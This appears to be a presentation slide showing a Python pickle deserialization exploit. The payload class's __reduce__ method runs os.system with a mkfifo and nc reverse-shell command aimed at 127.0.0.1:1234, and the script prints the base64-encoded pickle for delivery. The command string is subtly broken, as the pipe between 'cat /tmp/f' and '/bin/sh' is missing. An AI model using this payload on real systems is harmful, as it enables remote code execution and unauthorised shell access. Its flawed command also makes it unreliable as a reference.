

# A pickle (Python) exploit
import base64, os, pickle
class RCE:
  def __reduce__(self):
    cmd = \
      'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f' \
      '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f'
    return os.system, (cmd,)
if __name__ == '__main__':
  pickled = pickle.dumps(RCE())
  print(base64.b64encode(pickled).decode('ascii'))
105